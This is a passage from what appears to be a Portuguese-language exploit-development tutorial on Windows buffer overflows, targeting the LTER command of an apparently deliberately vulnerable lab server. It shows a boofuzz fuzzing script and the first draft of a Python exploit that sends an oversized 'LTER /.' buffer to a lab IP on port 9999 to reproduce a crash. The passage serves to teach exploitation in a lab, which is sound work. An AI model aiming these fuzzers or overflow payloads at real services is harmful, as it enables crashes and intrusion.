 ```python
                ),
            )
    s_initialize(name="Request")
    with s_block("Host-Line"):
        s_static('LTER', name="command name")
        s_delim(" ")
        s_string("FUZZ", name="comando da variavel")
        s_delim("\r\n")

    session.connect(s_get("Request"), callback=get_banner)
    session.fuzz()

if __name__ == "__main__":
    main()
```

![Enumaração do comando.](/std/winbof/winbof-78.png)

Causamos um crash com o envio de 10.007 bytes constituidos de “/.”, como sabemos que esta quantia foi exagerada das ultimas vezes, vamos iniciar o esboço do exploit com um buffer de 3.000 bytes e monitorar.

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * offset

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
